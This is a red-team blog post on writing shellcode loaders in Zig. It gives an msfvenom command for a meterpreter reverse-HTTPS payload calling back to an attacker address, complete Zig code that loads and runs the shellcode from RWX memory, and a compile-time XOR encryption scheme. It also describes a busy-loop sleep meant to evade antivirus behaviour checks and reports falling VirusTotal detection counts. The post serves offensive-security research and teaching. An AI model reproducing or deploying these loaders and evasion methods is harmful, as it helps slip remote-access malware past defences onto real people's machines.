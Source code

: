 ```yaml
---
layout: post
title: "Easy shellcode encryption in Zig"
---
```






With that said, let's get down to the "Hello world!" of offensive security - a simple shellcode loader. I'm gonna use staged meterpreter, generated with `msfvenom -p windows/x64/meterpreter/reverse_https -o src/meterpreter.bin LHOST=192.168.56.1 LPORT=443`. 
I chose meterpreter because it's been around for long so all decent AV products
should  detect its static signatures(how sad I was to found out this is not true), which makes it perfect for our examples. The loader is very simple -- I allocate RWX memory with `VirtualAlloc`, copy the shellcode into
it and then call a function pointer to the shellcode.

## Simple shellcode loader
```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;
const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

pub fn main() !void {
    // We include the compile as a string at compile time
    const shellcode = @embedFile("meterpreter.bin");
    // Allocate RWX memory for the shellcode
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    // We copy the shellcode to the memory.
    @memcpy(allocated_memory_ptr, shellcode);
    // Cast the RWX memory to a function pointer and then call it.
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

The code should be relatively simple to anyone with knowledge of C. However, the first thing that comes to eye of anyone who ever included meterpreter in C files
is the `embedFile` builtin. This builtin includes a whole binary file into our code as a string, and we can directly use it later.

For WinAPI bindings I use the project [marlersoft/zigwin32](https://github.com/marlersoft/zigwin32) , and it's very simple to call a C function. We need to cast the type to `[*]u8`, which means
a pointer to multiple characters. Zig distinguishes between single element pointers and array pointers, which makes it simple to state your intent.

After that, we copy the shellcode and call a function pointer to it.

The suprising thing for me were results from VirusTotal:
![basic shellcode loader virus total]({{site.url}}/assets/zig01/basic_vt.png)
 Welcome to year 2024 when only 24 AVs are capable of finding embedded meterpreter. I would be really happy to tell you that it's because of some dark optimizations that Zig performed, but to my disappointment the assembly is just straightforward and the whole shellcode is embedded in `.rdata`.

![basic shellcode disassembly]({{site.url}}/assets/zig01/basic_disassembly.png).

### Compile time encryption
The first big problem of our shellcode is that it's a sitting duck in the `.rdata` section. To achieve better results and bypass static signatures, we need to decrypt it during runtime. 
Zig offers us the `comptime` keyword, which enables us to run Zig code at compile time. This is similar to C macros or C++ template metaprogramming, however it is easier to read and write.

```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;

const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

//encrypt is a function that takes a compile time known string, and returns it encrypted
fn encrypt(comptime string: []const u8, k: u8) [string.len]u8 {
    // Zig has a default compilation timeout
    // We override it  to a big number so that the whole encryption can happen
    @setEvalBranchQuota(100000000);
    var encrypted_string: [string.len]u8 = undefined;
    // This loops over all characters of string - chr, and idx is the index
    for (string, 0..) |chr, idx| {
        // We do not want to xor with a single value, so we use also the index
        const key: u8 = @truncate((idx * 83) % 256);
        encrypted_string[idx] = chr ^ key ^ k;
    }
    return encrypted_string;
}

// This is very similar to the encrypt function
fn decrypt(mem: []u8, s: []const u8, k: u8) void {
    for (s, 0..) |chr, idx| {
        const key: u8 = @truncate((idx * 83) % 256);
        // The one difference is that this function also calls shouldRun, which should return 0
        // shouldRun is a function that ensures this is evaluated during runtime
        // this is how we prevent Zig from optimizing decryption out
        mem[idx] = chr ^ key ^ k + shouldRun();
    }
}
fn comptimeObfuscation(comptime s: []const u8) [s.len]u8 {
    const key = 0x42;
    // We call encrypt at comptime
    const enc_str = comptime encrypt(s, key);
    var ret_array: [s.len]u8 = [_]u8{0} ** s.len;
    decrypt(&ret_array, &enc_str, key);

    return ret_array;
}

fn shouldRun() u8 {
    // The value of BeingDebugged is determined during runtime
    const peb = std.os.windows.peb();
    return peb.BeingDebugged;
}

pub fn main() !void {
    // We include the shellcode as a string at compile time, and encrypt it
    const shellcode = comptimeObfuscation(@embedFile("meterpreter.bin"));
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    @memcpy(allocated_memory_ptr, shellcode[0..]);
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}

```

Our goal is to invoke the encrypt function during compile time -- Zig's `comptime` keyword enforces this. However, from my experiments, Zig was very eager to also run the decryption at compile time, and thus leaving the shellcode inside. From compiler's point of view this is obvious optimalization, however we do not want this. The simplest way is to make the `decrypt` function depend on any runtime value, 
and I chose the `BeingDebugged` which should be 0 unless program is debugged. The Ghidra decompiler proves that the compiled executable really decrypts the shellcode at runtime:
![disassembly of encrypted shellcode loader]({{site.url}}/assets/zig01/encrypted_disassembly.png)

The results from VirusTotal are not very encouraging. The encryption of shellcode only managed to bypass 5 products, which means we still have a long way to go.
![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/encrypted_vt.png)



## Behavior 
Our encryption is robust and I'm pretty sure that no signatures can be found for our payloads. We can determine which products perform behavior checks by timing them out. To do this, I found a [md5 brute force snippet](https://www.reddit.com/r/adventofcode/comments/szphy0/2015_day_04zig_some_tips_to_solve_the_problem/) online. We will use this snippet to performe active sleep before decrypting and executing the payload. I will not explain the code, as it's just a simple md5 hash cracking. The point is to use *any* slow computation without relying on functions that can be hooked by AV.

Adding the active sleep, we can get to only 1 detection:
![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/sleep_vt.png)

Of course, this does not mean that the payload would get executed in a real-world system. The behavior of meterpreter is pretty well known, and Windows defender consistently blocks it once it gets decrypted. However, the purpose of this blog was not to show that meterpreter is viable for Red Teaming against modern technologies, but just to show how simple it is in Zig to create compile time static signatures obfuscation.

## Stageless meterpreter
We made the job little bit harder for the AVs by using staged version of meterpreter. The shellcode of staged meterpreter is pretty small and it might be difficult to spot it. To try if they can do better, I also tried the same experiment with stageless meterpreter, where I encountered completely different issues.

First of all, the baseline of no encryption and no sleep was higher, indicating that there are definitely more signatures for the stageless version:

![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/stageless_vt.png)

After going through the hoops of encryption and sleep, we get to 8 detections:

![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/stageless_enc_sleep.png)

The reason for these detections is simple, the `.rdata` section is filled with 200KB of random nonsense and it's easy for any ML algorithm to pick up the entropy anomaly.

![encrypted shellcode loader entropy]({{site.url}}/assets/zig01/encrypted_entropy.png)

What I wanted to do next is to reduce this entropy - my idea was to simply prepend each encrypted byte with bunch of zeroes. However, this was not possible as Zig's `comptime` eats a LOT of RAM. Even compiling the previous encryption 

However, compiling this took around 5 minutes on my machine, indicating that Zig's `comptime` is not yet suitable for very large payloads.
This basically encompasses my overall feelings of Zig - I like the language, and I think it has big potential for offensive tooling, but it's obvious that the language is still largely in development. Features of this language get added/removed pretty often, and new versions often bring breaking changes. 

However, I still think it's already usable for small projects in red teaming space, s.a. shellcode loaders. I plan to go over several small examples in this blog, and how features of Zig help there. Next blog will be about `comptime` hashing and a custom GetModuleHandle function.










